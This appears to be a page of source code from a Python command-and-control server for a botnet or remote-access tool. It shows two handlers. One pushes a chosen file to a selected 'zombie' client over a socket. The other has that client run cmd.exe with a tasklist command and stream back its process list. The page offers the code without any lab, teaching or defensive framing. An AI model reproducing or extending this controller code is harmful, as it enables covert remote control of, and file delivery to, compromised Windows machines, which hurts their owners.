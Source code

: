 > The code to upload a file:

```python
if choice == "send":
            file_path = input("Enter the path of the file to upload: ").strip()
            if not os.path.isfile(file_path):
                print(f"Error: File '{file_path}' does not exist.")
                return
            filename = os.path.basename(file_path)
            print(filename)
            filesize = os.path.getsize(file_path)
            print(filesize)
            clientlist[selection][1].send(f":upload:{filename}:{filesize}:\n".encode())
            #print(Fore.GREEN + "[+] command sent!" + Fore.WHITE)
            cresponse=clientlist[selection][1].recv(1024)
            print(cresponse.decode('UTF-8'))
            time.sleep(3)
            
            with open(file_path, 'rb') as f, tqdm(total=filesize, unit="B", unit_scale=True, desc=f"Uploading {filename}") as pbar:
                for chunk in iter(lambda: f.read(4096), b''):
                    clientlist[selection][1].sendall(chunk)
                    pbar.update(len(chunk))
            
            cresponse2=clientlist[selection][1].recv(1024)
            print(cresponse2.decode('UTF-8'))
            time.sleep(3)
```

> The code to list all running processes:

```python
if choice == "procs":
            print("Give this about 10-15 seconds to execute.  Lots of data to load...\n")
            try:
                thecommand="for /f \"tokens=1,2,7,8,9\" %A in ('tasklist /NH /V') do @echo %A %B %C %D %E"
                clientlist[selection][1].send(f"c0mm@nd\ncmd.exe /c {thecommand}\n".encode('utf-8'))
                print(Fore.GREEN + "[+] command sent!" + Fore.WHITE)
                #clientlist[selection][1].settimeout(4)
                while True:
                    data2=clientlist[selection][1].recv(1024)
                  
                    if not data2 or ":endofoutput:" in data2.decode():
                        endoutput=data2.decode()
                        endoutput = endoutput.replace(":endofoutput:", "")
                        print(endoutput, end='')
                        break
                    #proclist = proclist.decode('UTF-8')
                    #print(proclist)
                    print(data2.decode(), end='')
                input("[+] DONE! Press any key to return...")
            except:
                print(Fore.RED + "[+] Either reached end of output for receiving socket or..." + Fore.WHITE)
                print(Fore.RED + "[!] there was an error sending the command to the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
```
